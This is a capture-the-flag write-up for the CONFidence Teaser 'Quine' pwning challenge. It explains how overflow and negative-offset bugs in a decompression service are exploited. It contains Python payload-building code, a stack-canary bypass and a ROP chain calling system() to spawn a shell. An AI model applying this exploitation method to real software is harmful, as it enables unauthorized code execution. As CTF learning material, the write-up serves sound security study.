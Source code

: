 # CONFidence CTF Teaser Quine

**Category:** Pwning
**Points:** 400
**Solves:** 19
**Description:**

> Yo Dawg! I herd you like compression!
>
> Files: [quine](quine) [libc.so.6](libc.so.6)
>
> Running at 95.138.166.12:31337


## Write-up

by [evgenymartynov](https://github.com/evgenymartynov)

You are provided with a binary that implements decompression-as-a-service with a simple custom data format. The decompression appends data to the output buffer either by taking a literal byte from the input stream, or reusing a slice of the output buffer.

As far as protection goes, we have ASLR and NX, but no PIE. We also have `system()@plt` in the binary, which helps.

There are two vulnerabilities that lead to a working exploit, both of which are in the decoder:
* Output buffer size is never checked -- it's trivial to cause an overflow;
* Reusing the slice of output allows for negative offsets, copying data backwards into the array.

Decompiled function is as follows:
```C
size_t __cdecl decode_buf(char *res, int reslim /* BUG: never used */, char *inp, int inplim) {
  size_t i; // [sp+14h] [bp-24h]@1
  int back_idx; // [sp+1Ch] [bp-1Ch]@9
  int copy_len; // [sp+20h] [bp-18h]@9
  bitstream input; // [sp+24h] [bp-14h]@1

  bitstream_constructor(&input, inp, inplim);
  i = 0;
  while ( num_bits_left(&input) != 0 ) {
    if ( extract_bits(&input, 1u) )  {
      if ( num_bits_left(&input) <= 7 )
        die("Invalid input buffer");
      res[i++] = extract_bits(&input, 8u);
    } else {
      if ( num_bits_left(&input) == 0 )
        die("Invalid input buffer");
      if ( extract_bits(&input, 1u) == 0 )      // terminating cond
        return i;
      back_idx = extract_varint(&input);
      copy_len = extract_varint(&input);
      if ( &res[i - back_idx - 1] < res )
        die("Invalid input buffer");
      if ( copy_len > i )
        die("Invalid input buffer");
      memcpy(&res[i], &res[i - back_idx - 1], copy_len);  // BUG: back_idx can be negative
      i += copy_len;
    }
  }
  return i;
}
```

In the calling code, the stack frame looks like the following:
```C
  char output_smashable[2048]; // [sp+2Bh] [bp-2005h]@7
  char input_stream[1024]; // [sp+82Bh] [bp-1805h]@7
  char __unused__[2049]; // [sp+102Bh] [bp-1005h]@3
  int canary; // [sp+202Ch] [bp-4h]@1
```

The complication is that if we try to smash the output buffer, we will trash the input stream which will affect the decoding process. In effect, some data will be doubly decoded (almost like a quine).

So, the plan of attack was to send a message that decodes to ROP, then the quiny bit, then a sequence of copies that smashes the buffer, then a copy operation that overwrites the next few instructions with the quiny bit.

In turn, the quiny bit needs to do the prep work for getting past the canary and copying the ROP chain. Then it can return, triggering the ROP.

We've reserved 200 bytes for ROP, 200 bytes for the quiny bit, and tried to smash the stack leading to a close-enough alignment so that a copy of the quiny payload would overwrite the current instructions. With trial and error, we got a payload to write 2541 bytes before an overlap occurs:

```python
for c in ROP + CODE:                                                             
  literal(ord(c))                                                                
literal(0)                                                                       
for i in xrange(11):                                                             
  i = 2**i                                                                       
  copy(i-1, i)                                                                   
                                                                                 
for i in xrange(3):                                                              
  literal(0x41)                                                                  
copy(255, 80)                                                                    
```

Cool, so now we can copy the `CODE` (quiny) bytes forward.

```python
copy(2541-202, 100)
```

We have chosen our payload thus far to generate an even number of bytes (multiple-of-8 bits for the compressed sequence so far) so that the overwrite lines up nicely. It's 491 bytes, 0 bits long right after this poing. Execution will continue in the quiny `CODE` bit. This is why it had to be doubly-compressed as mentioned above.

Now, what should `CODE` do? Well, we're still unpacking from the inside of our input buffer, and we have a lot of bytes to smash. We had trouble aligning the first few instructions, but the following seemed to align the quine execution and smash the stack adequately:
```python
for i in xrange(4):
  literal(0xff)  # encodes to 28 x 1-bits
literal(0x41)                                                                    
literal(0x42)                                                                    
literal(0x43)                                                                    
literal(0x44)                                                                    
# n=2639 bytes overwritten from beginning of output buffer so far
copy(2000, 1024*3 - 2639)                                                        
# n=3072                                                                         
copy(2048, 2048)                                                                 
copy(4096, 3072)                                                                 
# n=8192                                                                         
literal(0x41)                                              

# We are now at the canary. One more literal(0x41) causes a stascksmash abort.
```

To bypass the canary, we use the second bug:
```python
copy(0xffffffff, 4)  # canary                                                    
skip = 12   # saved regs and 16-byte align, whatever
for i in xrange(skip):                                                           
  literal(0x43)                                                                  
copy(8192+4+skip, 200)  # rop
```

The offset for the last `copy()` is calculated by taking number of bytes copied so far, since ROP starts at offset 0. We can now ROP freely.

The ropchain isn't pretty, and it has a lot of shamanism. `fgets()` crashed reliably, don't know why, so we copied in a `"sh\0\0"` with `scanf("%u")`. Also, the chain had to be padded with a bunch of `A`s, otherwise the decoder shits itself. If anyone can explain why, please edit this writeup adding a note below.

```python
FGETS = 0x080486c0  # unused                                                     
STDIN = 0x0804b060  # unused                                                     
SCANF = 0x08048700                                                               
SYSTEM = 0x080486a0                                                              
EXIT = 0x08048790                                                                
FMT = 0x0804901b  # "%u"                                                         
BUF = 0x0804b100  # something writeable                                          
BUMP_ESP = 0x0804864e  # add esp, 0x08 ; pop ebx ; ret  ;                        

ROP = ''                                                                         
ROP += pack('IIII', SCANF, BUMP_ESP, FMT, BUF) + "ABCD"                          
ROP += pack('III', SYSTEM, EXIT, BUF)                                            
ROP += pack('II', 0, 0)                                                          
ROP = ROP.ljust(170, '\0')                                                       
ROP = ROP.ljust(200, 'A')                                                        
```

Running this, we get a shell and after a `cat /*/*/*flag*`, we get `DrgnS{n0w_y0u_c4n_d3compr3ss_wh1Ie_u_dec0mpreSS}`. Cute.

The full exploit is also in the repo with a traffic log. Enjoy.

## Other write-ups and resources

* <https://gist.github.com/g05u/990cc267c0ea1455e39a>
